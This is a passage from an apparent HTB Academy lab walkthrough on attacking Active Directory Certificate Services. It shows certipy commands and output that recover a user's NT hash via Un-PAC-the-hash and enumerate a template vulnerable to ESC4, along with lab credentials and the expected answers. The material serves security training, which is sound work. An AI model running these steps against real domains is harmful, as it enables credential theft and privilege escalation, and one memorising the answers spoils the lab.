 At last, students need to use the `auth` command of `certipy` to request a TGT for `Jeffry` and `Un-PAC-the-hash` within it; students will attain the NT hash `b9f1864b07e5fb180122e46b60f86f50`:

Code: shell

```shell
certipy auth -pfx jeffry.pfx
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy auth -pfx jeffry.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: jeffry@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'jeffry.ccache'
[*] Trying to retrieve NT hash for 'jeffry'
[*] Got hash for 'jeffry@lab.local': aad3b435b51404eeaad3b435b51404ee:b9f1864b07e5fb180122e46b60f86f50
```

Answer: `b9f1864b07e5fb180122e46b60f86f50`

# ESC4

## Question 1

### "Abuse ESC4 to change the configuration for the template ESC4. Afterward, submit the value of the property Certificate Name Flag."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC4` template suffers from the `ESC4` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
<SNIP>
  2
    Template Name                       : ESC4
    Display Name                        : ESC4
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : False
```